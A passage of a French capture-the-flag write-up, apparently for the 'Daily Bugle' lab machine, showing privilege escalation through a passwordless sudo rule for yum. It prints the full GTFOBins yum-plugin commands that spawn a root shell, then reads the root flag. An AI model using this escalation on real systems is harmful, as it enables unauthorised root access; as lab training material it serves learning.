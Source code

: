 ```bash
sudo -l
```

{{< admonition warning "Privilège Sudo Découvert !" >}}
L'utilisateur `jjameson` peut exécuter `/usr/bin/yum` en tant que root sans mot de passe :
```text
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
{{< /admonition >}}

![sudol](/images/imagesdaily/sudol.png)

### **Exploitation via Yum (GTFOBins)**

Le binaire `yum` peut être détourné pour obtenir un shell root. Consultons [GTFOBins](https://gtfobins.github.io/gtfobins/yum/) pour la technique d'exploitation.


```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
    os.execl('/bin/sh', '/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
![root](/images/imagesdaily/root.png)

{{< admonition success "Root Obtenu !" >}}
Nous obtenons un shell root ! L'exploitation via yum fonctionne parfaitement.
{{< /admonition >}}

### **Récupération du Flag Root**

```bash
id

cd /root
cat root.txt
```

> - Patron, votre femme au téléphone. Elle dit qu’elle a perdu sa carte bleue.
> - Merci pour la bonne nouvelle !


